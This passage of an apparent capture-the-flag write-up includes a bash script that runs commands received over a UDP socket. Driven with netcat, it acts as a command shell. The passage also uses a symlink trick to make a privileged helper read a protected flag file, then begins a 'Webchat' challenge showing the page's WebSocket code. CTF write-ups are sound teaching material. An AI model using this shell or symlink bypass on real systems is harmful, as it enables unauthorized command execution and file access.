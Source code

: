 ubd.sh:

    #!/bin/bash

    exec 9<> /dev/udp/localhost/8088
    [ $? -eq 1 ] && exit
    echo "connect ok" >&9

    while :
    do
      a=`dd bs=200 count=1 <&9 2>/dev/null`
      if echo "$a"|grep "exit"; then break; fi
      echo `$a` >&9
    done

    exec 9>&-
    exec 9<&-
    
nc -lu 8088

![http://ww3.sinaimg.cn/large/c334041bgw1eqegkzopavj20s9083acl.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegkzopavj20s9083acl.jpg)

find use_me_to_read_flag and flag:

    /var/www/flag/use_me_to_read_flag /var/www/flag/flag
    >_ Permission denied
    
IDA, see _strstr "flag":

![http://ww2.sinaimg.cn/large/c334041bgw1eqeguifv68j20vw0br76y.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqeguifv68j20vw0br76y.jpg)

Cat FLAG:

    ln -s /var/www/flag/flag /tmp/warning
    /var/www/flag/use_me_to_read_flag /tmp/warning
    
![http://ww1.sinaimg.cn/large/c334041bgw1eqegx2zctxj20fm03zjro.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqegx2zctxj20fm03zjro.jpg)

-------------

#### Webchat 325

Desc: http://146.148.60.107:9991/

![http://ww2.sinaimg.cn/large/c334041bgw1eqeh1ri1hwj20ka0co3zm.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqeh1ri1hwj20ka0co3zm.jpg)

Websocket XSS? SQL Injection?

View-source:

    <script>
        $(document).ready(
        function() {
            function connect() {
                $("#status").text("Connecting");
                $("#status").attr("class", "text-primary");
                var ws = new window.WebSocket('ws://' + location.host + '/ws');
                ws.onopen = function() { $("#status").attr('class', 'text-success').text('Connected'); 
                    $("#submit_btn").attr('disabled', false).click(function() {
                        $("#sendstatus").attr('class', 'text-primary').text('Sending...');
                        ws.send($("#i_nick").val() + ": " + $("#i_msg").val());
                    });
                }
                ws.onclose = function() { $("#status").attr('class', 'text-danger').text('Disconnected'); setTimeout(connect, 5000);}
                ws.onerror = function() { $("#status").attr('class', 'text-danger').text('Failed to connect.'); }
                ws.onmessage = function(datad) {
                    var data = datad.data;
                    if (data[0] == 'm') $("#msg").html(data.substr(1) + "<br/>" +  $("#msg").html());
